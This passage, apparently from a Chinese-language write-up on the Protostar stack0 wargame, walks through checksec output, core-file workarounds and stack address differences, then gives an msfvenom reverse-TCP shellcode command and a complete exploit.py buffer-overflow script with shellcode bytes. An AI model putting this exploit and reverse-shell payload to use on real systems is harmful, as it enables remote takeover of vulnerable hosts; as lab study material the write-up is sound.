 其中的NX enabled可以看出的确是这个原因

检查下./stack0：

发现也是NX enabled,这个stack0应该是我在kali上用gcc -g -o stack0 stack0.c编译出来的,默认有安全防护

复制原系统protostar中的/opt/protostar/bin/stack0到kali中

```
scp user:192.168.2.144:/opt/protostar/bin/stack0 /root/桌面
./checksec.sh --file stack0
-----------output:-----------
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   stack0
-------------end-------------

```

这个才是原题protostar系统中的stack0,但是原系统中(protostar)溢出时无法产生core文件,无法分析执行时的shellcode和main_ret地址

无法产生core文件应该是由于protostar默认的user用户的权限对suid=root的/opt/protostar/bin/stack0文件权限不足以在发生溢出时产生core文件

解决方法：

`cp /opt/protostar/bin/stack0 /tmp`

这样/tmp/stack0就是user用户的文件了，溢出时可以正常产生core文件,但是没有原来/opt/protostar/bin/stack0的suid=root属性

开始一直是通过`sshuser@192.168.2.144`到protostar系统进行远程操作的，后来发现ssh登录时和直接在protostar系统中操作时不同，这两种情况下运行:python exploit.py 在内存中分配的地址不同

`sshuser@192.168.2.144`时shellcode的内存地址为0xbffff790  
直接在protostar虚拟机中操作时shellcode的内存地址为0xbffff880

后来以改为直接在protostar系统中操作,将jmp_esp的值改为"\x80\xf8\xff\xbf"

重新由下面语句生成shellcode,由原来的x64改成x86,LPORT改成2222(kali为64位系统,protostar为32位系统)

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.3.106 LPORT=2222 -b "\x00" -f py
exploit.py代码如下：
-------------------exploit.py-----------------------
#/usr/bin/python
import os
import sys

buf =  ""
buf += "\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x12\xbb\xbe"
buf += "\x35\xbf\xc5\x31\x5e\x1a\x83\xc6\x04\x03\x5e\x16\xe2"
buf += "\x4b\x04\x64\x32\x50\x34\xd9\xee\xfc\xb9\x6d\x76\x89"
buf += "\x5f\x40\xf7\x1e\xc4\x33\x38\x88\xf8\xa9\xd0\xca\xfe"
buf += "\x25\x8f\x43\x1f\x5f\xa9\x0b\xb0\xf1\x62\x22\xd1\xb1"
buf += "\x41\xb4\xa0\x31\xe3\xb4\xd4\x3d\x13\x3d\x37\xfc\xf8"
buf += "\x31\x79\x1c\xf2\xf9\x04\x2e\x8b\xa2\x7f\x51\x15\xe2"
buf += "\x8c\x22\x25\xc7\x0d\xbd\xcb"

jmp_esp="\x70\xf8\xff\xbf"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
-----------------end--------------------------------

```
